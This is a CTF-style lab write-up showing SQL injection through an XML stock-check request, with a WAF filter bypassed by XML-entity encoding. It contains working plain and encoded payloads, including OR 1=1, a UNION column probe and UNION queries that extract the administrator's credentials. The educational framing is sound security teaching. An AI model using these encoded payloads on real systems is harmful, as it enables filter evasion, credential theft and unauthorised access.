 # SQL injection with filter bypass via XML

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.ru.md)  
- 🇬🇧 [English](WRITEUP.en.md)

## Disclaimer
---

**The text was written and translated by the author manually. A language model was used for formatting and stylistic editing.**

**This material is provided for educational and research purposes only. I do not encourage or call for unauthorized access to information systems or violation of the law. In my opinion, one of the most effective ways to combat cybercrime is to educate both everyday users and managers, as well as developers of digital products about common vulnerabilities that could potentially be exploited by malicious actors to carry out unlawful acts.**

**⚠️ All actions described in this document were performed within an authorized research environment (CTF/test platform), without violating the rights of third parties or current legislation.**

**Unauthorized interference with computer systems, violation of data storage and processing rules, and other forms of so-called "black-hat" hacking are contrary to law and the ethics of information security.**

**I adhere to the principles of ethical research and responsible vulnerability disclosure.**


## Target
---

![placeholder](images/labCard.png)

The instance seems to be a shop application with goofy items in stock:

![Lab](images/SqliLab3Target.png)

## Functionality
---

Every item has a `Check stock` button in it's details, outputing the quantity of items in stock across shops in different cities:

![Lookup](images/SqliLab3Function.png)
The `Check stock` function sends a request to the backend, containing XML:

![Request](images/SqliLab3CheckStockXML.png)

```XML 
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
			13
		</productId>
		<storeId>
			1
		</storeID>
	</stockCheck>
```

That is the injection point!

## Exploitation
---

However, the Web Application Firewall will detect raw malitious input:

![Block](images/SqliLab3WAFBlock.png)

The application will still understand the encoded version of `storeId`, provided that it is valid. In this case, `storeId = 1` is treated the same as `storeId = &#49;`:

![CharXML](images/LabSqliXMLWorks.png)

This means that it is to possible to pass XML-encoded payloads to exploit the SQL-injection vulnerability.

``` SQL
1' OR 1=1 -- 
```

Below is the XML-encoded version of the PoC SQL injection payload mentioned above:

``` XML
&#49;&#39;&#32;&#79;&#82;&#32;&#49;&#61;&#49;&#32;&#45;&#45;&#32;
```

This will dump all the product units in all the stores:

![Poc](images/SqliLab3Poc2.png)

A `UNION`-based SQL injection approach is the best option, bearing in mind that the main objective of the lab is to log in as the `administrator` user.

This query will allow to verify how many collumns does the request return, and whether the `users` table is reachable (the number of `NULL` pads is 1 in this case):

``` SQL
1' UNION SELECT NULL FROM users -- 
```

XML-encoded:

``` XML

&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#78;&#85;&#76;&#76;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#45;&#45;&#32;

```

It works!

![UnionSuccess](images/SqliLab3UnionSuccess.png)

Now, to extract the data from the `users` table:

``` SQL

1' UNION SELECT password FROM users WHERE username='administrator' -- 

```

XML-encoding:

``` XML

&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#32;&#45;&#45;&#32;

```

![UnionSuccess2](images/SqliLab3UnionPasswordSuccess.png)

To make it more clear, here is a payload which utillizes concatenation to extract both `username` and `password` entries of the table, divided by `\|/` as the delimeter:

``` SQL

1' UNION SELECT username || '\|/' || password FROM users WHERE username='administrator' -- 

```

XML-encoded:

``` XML

&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#32;&#124;&#124;&#32;&#39;&#92;&#124;&#47;&#39;&#32;&#124;&#124;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#32;&#45;&#45;&#32;

```

![Delimeter](images/SqliLab3UnionDelimeter.png)

The stolen credentials can now be used to log in as the `administrator` user, solving the lab:

![Solution](images/Lab3Solved.png)

Thank you for you attention! ^^
